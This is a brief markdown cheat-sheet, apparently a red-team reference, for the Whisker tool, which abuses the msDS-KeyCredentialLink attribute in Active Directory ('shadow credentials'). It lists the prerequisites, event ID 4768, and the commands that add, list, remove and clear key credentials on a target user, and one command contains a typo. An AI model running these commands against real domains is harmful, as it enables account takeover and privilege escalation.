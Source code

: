 ### source
https://github.com/eladshamir/Whisker  

### requirements
```
Windows Server 2016 domain controller
digitale certificate for Server Authentication installed on domain controller
```

### Windows Security Log Event IDs
```
Kerberos authentication(4768) TGT requested 
```

### generate public-private key pair and add credential to target object
```
Whisker.exe add /target:<user>
```

### list entries of msDS-KeyCredentialLink attribute
```
Whisker.exe list /target:<user>
```

### remove key credential by a DeviceID GUID
```
Whisker.exe remove /target:<user> /deviceid:<id>
```

### remove all values from msDS-KeyCredentialLink attribute
```
Whisker.exe clear /target;<user>
```

